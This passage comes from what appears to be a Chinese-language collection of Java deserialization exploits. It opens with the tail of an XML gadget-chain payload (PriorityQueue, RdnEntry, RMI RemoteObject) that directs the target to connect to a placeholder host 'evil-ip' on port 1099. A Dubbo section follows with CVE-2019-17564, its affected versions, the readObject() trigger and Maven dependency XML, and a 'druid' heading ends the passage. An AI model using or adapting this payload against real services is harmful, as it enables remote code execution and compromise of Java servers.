```
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
### Dubbo

```
Dubbo CVE-2019-17564

该漏洞最后触发点在readObject()

2.7.0 <= Apache Dubbo <= 2.7.4
2.6.0 <= Apache Dubbo <= 2.6.7
Apache Dubbo = 2.5.x

<properties>
    <dubbo.version>2.7.5</dubbo.version>
</properties>

<dependencies>
    <dependency>
      <groupId>org.apache.dubbo</groupId>
        <artifactId>dubbo</artifactId>
      <version>${dubbo.version}</version>
    </dependency>
    <dependency>
        <groupId>org.apache.dubbo</groupId>
      <artifactId>dubbo-dependencies-zookeeper</artifactId>
        <version>${dubbo.version}</version>
      <type>pom</type>
    </dependency>
</dependencies>
```

### druid
